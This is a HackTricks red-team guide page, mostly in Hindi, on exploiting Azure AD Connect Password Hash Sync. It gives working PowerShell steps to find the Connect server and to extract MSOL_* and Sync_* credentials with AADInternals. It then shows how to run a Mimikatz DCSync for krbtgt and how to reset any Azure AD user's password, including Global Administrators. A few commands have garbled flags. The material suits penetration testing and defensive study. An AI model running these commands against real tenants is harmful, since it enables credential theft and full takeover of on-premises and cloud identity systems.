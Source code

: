 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **पासवर्ड हैश समन्वयन** हाइब्रिड पहचान को पूरा करने के लिए उपयोग किए जाने वाले साइन-इन तरीकों में से एक है। **Azure AD Connect** एक ऑन-प्रिमाइसेस सक्रिय निर्देशिका उदाहरण से एक क्लाउड-आधारित Azure AD उदाहरण में एक उपयोगकर्ता के पासवर्ड का हैश, हैश का हैश समन्वयित करता है।

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

यह **कंपनियों द्वारा उपयोग किया जाने वाला सबसे सामान्य तरीका** है जो ऑन-प्रिम AD को Azure AD के साथ समन्वयित करता है।

सभी **उपयोगकर्ता** और **पासवर्ड हैश का हैश** ऑन-प्रिम से Azure AD में समन्वयित होते हैं। हालाँकि, **स्पष्ट-टेक्स्ट पासवर्ड** या **मूल** **हैश** Azure AD को नहीं भेजे जाते।\
इसके अलावा, **निर्मित** सुरक्षा समूह (जैसे डोमेन प्रशासक...) **Azure AD में समन्वयित नहीं होते**।

**हैश समन्वयन** हर **2 मिनट** में होता है। हालाँकि, डिफ़ॉल्ट रूप से, **पासवर्ड समाप्ति** और **खाता** **समाप्ति** Azure AD में **समन्वयित नहीं होते**। इसलिए, एक उपयोगकर्ता जिसका **ऑन-प्रिम पासवर्ड समाप्त हो गया है** (बदला नहीं गया) वह पुराने पासवर्ड का उपयोग करके **Azure संसाधनों** तक पहुँच जारी रख सकता है।

जब एक ऑन-प्रिम उपयोगकर्ता Azure संसाधन तक पहुँच प्राप्त करना चाहता है, तो **प्रमाणीकरण Azure AD पर होता है**।

**PHS** की आवश्यकता होती है जैसे **पहचान सुरक्षा** और AAD डोमेन सेवाओं के लिए।

## Pivoting

जब PHS कॉन्फ़िगर किया जाता है, तो कुछ **विशेषाधिकार प्राप्त खाते** स्वचालित रूप से **बनाए जाते हैं**:

* खाता **`MSOL_<installationID>`** स्वचालित रूप से ऑन-प्रिम AD में बनाया जाता है। इस खाते को **निर्देशिका समन्वयन खातों** की भूमिका दी जाती है (देखें [दस्तावेज़](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) जिसका अर्थ है कि इसके पास **ऑन-प्रिम AD में पुनरुत्पादन (DCSync) अनुमतियाँ हैं**।
* एक खाता **`Sync_<name of on-prem ADConnect Server>_installationID`** Azure AD में बनाया जाता है। इस खाते को Azure AD में **किसी भी उपयोगकर्ता** (समन्वयित या केवल क्लाउड) का पासवर्ड **रीसेट** करने की अनुमति है।

पिछले दो विशेषाधिकार प्राप्त खातों के पासवर्ड **SQL सर्वर में** संग्रहीत होते हैं जहाँ **Azure AD Connect स्थापित है।** व्यवस्थापक स्पष्ट-टेक्स्ट में उन विशेषाधिकार प्राप्त उपयोगकर्ताओं के पासवर्ड निकाल सकते हैं।\
डेटाबेस `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` में स्थित है।

एक टेबल में से कॉन्फ़िगरेशन निकालना संभव है, जिसमें से एक एन्क्रिप्टेड है:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**एन्क्रिप्टेड कॉन्फ़िगरेशन** **DPAPI** के साथ एन्क्रिप्टेड है और इसमें **`MSOL_*`** उपयोगकर्ता के पासवर्ड ऑन-प्रिम AD में और **Sync\_\*** का पासवर्ड AzureAD में शामिल है। इसलिए, इनका समझौता करने से AD और AzureAD में प्रिवेस्क करने की संभावना है।

आप इस टॉक में [इन क्रेडेंशियल्स को कैसे संग्रहीत और डिक्रिप्ट किया जाता है, इसका पूरा अवलोकन पा सकते हैं](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### Finding the **Azure AD connect server**

यदि **सर्वर जहाँ Azure AD connect स्थापित है** डोमेन से जुड़ा हुआ है (दस्तावेज़ में अनुशंसित), तो इसे निम्नलिखित के साथ खोजा जा सकता है:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\* का दुरुपयोग
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
आप इन क्रेडेंशियल्स को प्राप्त करने के लिए [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) का भी उपयोग कर सकते हैं।
{% endhint %}

### Sync\_\* का दुरुपयोग

**`Sync_*`** खाते से समझौता करने पर किसी भी उपयोगकर्ता (जिसमें Global Administrators भी शामिल हैं) का **पासवर्ड रीसेट** करना संभव है।
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
यह **केवल क्लाउड** उपयोगकर्ताओं के पासवर्ड को संशोधित करना भी संभव है (भले ही यह अप्रत्याशित हो)।
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
यह उपयोगकर्ता का पासवर्ड डंप करना भी संभव है।

{% hint style="danger" %}
एक और विकल्प होगा **एक सेवा प्रमुख को विशेषाधिकार प्राप्त अनुमतियाँ सौंपना**, जिसे **Sync** उपयोगकर्ता **अनुमतियाँ** देने के लिए सक्षम है, और फिर **उस सेवा प्रमुख तक पहुँच प्राप्त करना** एक प्रिवेस्क के तरीके के रूप में।
{% endhint %}

### Seamless SSO

PHS के साथ Seamless SSO का उपयोग करना संभव है, जो अन्य दुरुपयोगों के प्रति संवेदनशील है। इसे जांचें:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर हमें **फॉलो** करें।**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
